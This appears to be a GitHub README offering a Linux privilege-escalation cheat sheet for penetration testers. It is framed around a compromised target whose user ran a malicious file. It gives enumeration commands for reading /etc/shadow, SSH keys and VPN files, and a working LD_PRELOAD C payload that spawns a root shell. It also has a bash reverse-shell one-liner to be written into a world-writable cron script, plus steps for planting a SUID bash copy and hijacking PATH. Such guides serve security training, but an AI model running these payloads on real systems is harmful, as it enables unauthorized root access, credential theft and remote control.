 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration and easy wins
```sh
cat ~/.*history | less             # identify previously executed commands in the shell
whoami                             # enumerate the user
id                                 # enumerate the user
cat /etc/{passwd,shadow,group}     # check if we can see the stored passwords, users, groups
ls -l /etc/{shadow,passwd}         # check if we can write into the previously mentioned files
cat /etc/{passwd,group}            # same but without shadow (usually 'Permission denied')
ps aux | grep --ignore-case root   # see unusual processes and processes run by the root user
ls -l /.ssh                        # look for SSH keys, that you can download and connect back
locate "/*.ovpn"                   # identify vpn files that could help you pivot
find . -type f -iname "*vpn*"      # same just with the find command
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
uname --kernel-{name,release,version}
uname --all
lscpu

cat /proc/{version,issue}
cat /etc/os-release

# for modules
lsmod
lsmod | cut -d ' ' -f 1 | sort --unique

# oneliner: outputs errors(e.g the usual shadow permission denied) to file `err`
cat {/proc/{version,issue},/etc/{passwd,shadow,group,os-release}} 2>err

sudo -l                            # to check which commands I can run as a super user without the password
```

Sudo -l is the first thing you execute after gaining a foothold, you can have some easy wins with that. After checking the output go to https://gtfobins.github.io/ and note down, the binaries which are present on the system and can be executed with the sudo command without knowing the pass.

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

### C Source code

in.c

```c
/*
 * author: An00bis
 * file: in.c
 */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

### Compilation
Usually, gcc is by default installed on most* systems.
We can compile it with `gcc -o out.elf in.c`
which takes `in.c` (our c source) 
and outputs `out.elf` (a executable) \
to run it: `./out.elf`


# Cron Jobs

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
```
cat /etc/crontab                      # check for cron jobs
locate example.sh                     # Find from where the file executes
ls -l /usr/local/bin/example.sh       # check if the file is world-writable

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1  # Overwrite the file with this simple one-liner, open up a listening port on 1234 and wait for the call-back
```
```
cat /etc/crontab                      # check for cron jobs, look for the PATH variable

Here I will leave an example: /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin. In this case the PATH variable is /home/user, we are going to invoke a shell here with root priviliges.

Create a file with the following content:


#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash


chmod +x /home/user/example.sh        # make the file executable and wait a minute or two
/tmp/rootbash -p                      # invoke the shell with the following command, the -p switch maintains the permission of the owner.
```
```
cat /usr/local/bin/example.sh         # check the content of a cronjob and look for wildcards (*)
```
Check gtfobins for exploitation methods and use them. You can find a lot of things, but the basic idea is that you trick the program to think that the commands thar are going to be executed are part of it's features. This way you can gain trick the binary to rain a metasploit reverse-shell, execute additional commands or to simply elevate you to root.


# Network enumeration

```sh
ifconfig   # to see network interfaces, ip addresses..etc
ip a       # alternative for ifconfig
ip -c a    # output in color
arp -a     # check to ARP table and discover additional assets on the subnet
ip neigh   # alternative for the arp command
ip route   # check the route table and discover gateways, additional IPs
netstat    # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement

# SUID / GUID binaries

The flags setuid and setgid are needed for tasks that require different privileges than what the user is normally granted, such as the ability to alter system files or databases to change their login password. When the setuid or setgid attributes are set on an executable file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly root) and/or the file's group, depending upon the flags set. I highly suggest to you to do your research on this topic because I can't cover everything in a single gitHub post.


```
find . -perm /6000                                                                  # Identify files where both the setuid and setgid flags are set
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null     # same just with a different command

Look for public exploits using Google, Exploit-db, Yandex...etc

strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"          

Use this commands on the binary to see the objects it's trying to load, try to overwrite objects with a reverse-shell to gain root access.

strings /usr/local/bin/example

From the strings output check the paths, from where the other executables are called. Try to overwrite them with a simple bash shell, add the route to the PATH variable and execute the file.

PATH=.:$PATH /usr/local/bin/example
./example
```

# Before finishing

This is just quick overview of this topic, as you can see, most of the time we overwrite files, abuse call functions and use public exploits to elevate our priviliges but with a little creativity you can do so much more. :)

If permitted use automatization tools to not lose too much time on this part of the penetration testing process:

* https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
* https://github.com/The-Z-Labs/linux-exploit-suggester

Resources to help you understand better the privilige escalation process:

* https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06
* https://tryhackme.com/room/linuxprivescarena
* https://tryhackme.com/room/linuxprivesc
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md




